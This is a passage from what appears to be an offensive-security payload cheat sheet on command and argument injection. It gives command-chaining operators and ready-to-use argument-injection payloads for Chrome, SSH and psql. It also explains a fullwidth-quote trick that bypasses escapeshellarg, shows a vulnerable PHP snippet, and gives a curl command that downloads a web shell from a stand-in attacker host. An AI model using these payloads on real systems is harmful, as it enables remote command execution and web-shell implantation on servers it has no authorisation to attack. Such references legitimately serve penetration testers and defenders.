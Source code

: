 ```powershell
command1; command2   # Execute command1 and then command2
command1 && command2 # Execute command2 only if command1 succeeds
command1 || command2 # Execute command2 only if command1 fails
command1 & command2  # Execute command1 in the background
command1 | command2  # Pipe the output of command1 into command2
```

### Argument Injection

Gain a command execution when you can only append arguments to an existing command.
Use this website [Argument Injection Vectors - Sonar](https://sonarsource.github.io/argument-injection-vectors/) to find the argument to inject to gain command execution.

* Chrome

    ```ps1
    chrome '--gpu-launcher="id>/tmp/foo"'
    ```

* SSH

    ```ps1
    ssh '-oProxyCommand="touch /tmp/foo"' foo@foo
    ```

* psql

    ```ps1
    psql -o'|id>/tmp/foo'
    ```

Argument injection can be abused using the [worstfit](https://blog.orange.tw/posts/2025-01-worstfit-unveiling-hidden-transformers-in-windows-ansi/) technique.

In the following example, the payload `＂ --use-askpass=calc ＂` is using **fullwidth double quotes** (U+FF02) instead of the **regular double quotes** (U+0022)

```php
$url = "https://example.tld/" . $_GET['path'] . ".txt";
system("wget.exe -q " . escapeshellarg($url));
```

Sometimes, direct command execution from the injection might not be possible, but you may be able to redirect the flow into a specific file, enabling you to deploy a web shell.

* curl

    ```ps1
    # -o, --output <file>        Write to file instead of stdout
    curl http://evil.attacker.com/ -o webshell.php
    ```

### Inside A Command

